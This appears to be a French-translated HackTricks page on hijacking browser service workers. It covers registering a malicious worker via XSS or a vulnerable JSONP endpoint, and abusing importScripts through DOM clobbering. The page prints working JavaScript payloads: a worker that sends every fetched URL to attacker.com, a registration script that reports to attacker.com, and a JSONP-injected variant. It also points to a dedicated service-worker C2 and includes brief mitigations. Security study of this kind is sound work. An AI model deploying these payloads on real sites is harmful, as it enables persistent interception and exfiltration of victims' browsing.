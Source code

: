 # Abusing Service Workers

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Un **service worker** est un script exécuté par votre navigateur en arrière-plan, séparé de toute page web, permettant des fonctionnalités qui ne nécessitent pas de page web ou d'interaction utilisateur, améliorant ainsi les capacités de **traitement hors ligne et en arrière-plan**. Des informations détaillées sur les service workers peuvent être trouvées [ici](https://developers.google.com/web/fundamentals/primers/service-workers). En exploitant les service workers dans un domaine web vulnérable, les attaquants peuvent prendre le contrôle des interactions de la victime avec toutes les pages de ce domaine.

### Checking for Existing Service Workers

Les service workers existants peuvent être vérifiés dans la section **Service Workers** de l'onglet **Application** dans les **Outils de développement**. Une autre méthode consiste à visiter [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) pour une vue plus détaillée.

### Push Notifications

Les **permissions de notification push** impactent directement la capacité d'un **service worker** à communiquer avec le serveur sans interaction directe de l'utilisateur. Si les permissions sont refusées, cela limite le potentiel du service worker à poser une menace continue. À l'inverse, accorder des permissions augmente les risques de sécurité en permettant la réception et l'exécution d'exploits potentiels.

## Attack Creating a Service Worker

Pour exploiter cette vulnérabilité, vous devez trouver :

* Un moyen de **télécharger des fichiers JS arbitraires** sur le serveur et un **XSS pour charger le service worker** du fichier JS téléchargé
* Une **requête JSONP vulnérable** où vous pouvez **manipuler la sortie (avec du code JS arbitraire)** et un **XSS** pour **charger le JSONP avec un payload** qui **chargera un service worker malveillant**.

Dans l'exemple suivant, je vais présenter un code pour **enregistrer un nouveau service worker** qui écoutera l'événement `fetch` et **enverra à l serveur des attaquants chaque URL récupérée** (c'est le code que vous devez **télécharger** sur le **serveur** ou charger via une **réponse JSONP vulnérable**) :
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
Et voici le code qui va **enregistrer le worker** (le code que vous devriez être en mesure d'exécuter en abusant d'un **XSS**). Dans ce cas, une requête **GET** sera envoyée au serveur des **attaquants** **notifiant** si l'**enregistrement** du service worker a réussi ou non :
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
Dans le cas d'abuser d'un point de terminaison JSONP vulnérable, vous devez mettre la valeur à l'intérieur de `var sw`. Par exemple :
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
Il existe un **C2** dédié à l'**exploitation des Service Workers** appelé [**Shadow Workers**](https://shadow-workers.github.io) qui sera très utile pour abuser de ces vulnérabilités.

La **directive de cache de 24 heures** limite la durée de vie d'un **service worker (SW)** malveillant ou compromis à au maximum 24 heures après la correction d'une vulnérabilité XSS, en supposant un statut client en ligne. Pour minimiser la vulnérabilité, les opérateurs de site peuvent réduire le Temps de Vie (TTL) du script SW. Il est également conseillé aux développeurs de créer un [**kill-switch pour le service worker**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) pour une désactivation rapide.

## Abuser de `importScripts` dans un SW via DOM Clobbering

La fonction **`importScripts`** appelée depuis un Service Worker peut **importer un script d'un domaine différent**. Si cette fonction est appelée en utilisant un **paramètre que l'attaquant pourrait** modifier, il serait capable d'**importer un script JS de son domaine** et d'obtenir XSS.

**Cela contourne même les protections CSP.**

**Exemple de code vulnérable :**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### Avec le DOM Clobbering

Pour plus d'informations sur ce qu'est le DOM Clobbering, consultez :

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

Si l'URL/domaine que le SW utilise pour appeler **`importScripts`** est **à l'intérieur d'un élément HTML**, il est **possible de le modifier via le DOM Clobbering** pour faire en sorte que le SW **charge un script depuis votre propre domaine**.

Pour un exemple de cela, consultez le lien de référence.

## Références

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

